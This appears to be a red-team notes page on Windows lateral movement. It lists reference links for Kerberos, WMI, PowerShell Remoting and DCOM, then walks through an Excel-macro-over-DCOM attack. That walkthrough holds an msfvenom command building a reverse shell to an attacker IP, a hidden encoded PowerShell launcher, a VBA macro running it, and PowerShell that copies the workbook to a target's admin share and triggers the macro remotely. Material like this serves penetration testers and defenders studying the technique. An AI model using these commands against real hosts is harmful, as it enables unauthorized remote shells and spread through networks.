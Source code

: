 # Lateral Movement

## Kerberos

[Link](active-directory.md#kerberos)

## Windows Management Instrumentation (WMI)

* [https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
* [https://www.trustedsec.com/blog/no\_psexec\_needed/](https://www.trustedsec.com/blog/no\_psexec\_needed/)

## Powershell Remoting

* [https://www.netspi.com/blog/technical/network-penetration-testing/powershell-remoting-cheatsheet/](https://www.netspi.com/blog/technical/network-penetration-testing/powershell-remoting-cheatsheet/)
* [https://adamtheautomator.com/psremoting/](https://adamtheautomator.com/psremoting/)
* [https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands)
* [http://www.harmj0y.net/blog/empire/expanding-your-empire/](http://www.harmj0y.net/blog/empire/expanding-your-empire/)

## Distributed Component Object Model (DCOM)

* [https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-anddotnettojscript/](https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-anddotnettojscript/)
* [https://attactics.org/2018/02/03/lateral-movement-with-powerpoint-and-dcom/](https://attactics.org/2018/02/03/lateral-movement-with-powerpoint-and-dcom/)
* [https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

### Using Excel Macros

{% hint style="info" %}
Requires:

* Office installed on both source and target hosts
* Local admin privileges
{% endhint %}

Create a HTA reverse shell using msfvenom:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=8080 -f hta-psh -o rshell.hta
```

Extract the encoded Powershell command:

```
powershell.exe -nop -w hidden -e aQBmACg...
```

Convert it to VBA format:

```
Sub mymacro()
    Dim Str As String
    Str = "powershell.exe -nop -w hidden -e aQBm..."
    Str = Str + "..."
    CreateObject("Wscript.Shell").Run Str
End Sub
```

Call the macro on target host using Excel through DCOM:

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "target_ip"))
$LocalPath = "C:\excel.xls"
$RemotePath = "\\target_ip\c$\excel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\target_ip\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\excel.xls")
$com.Run("mymacro")
```
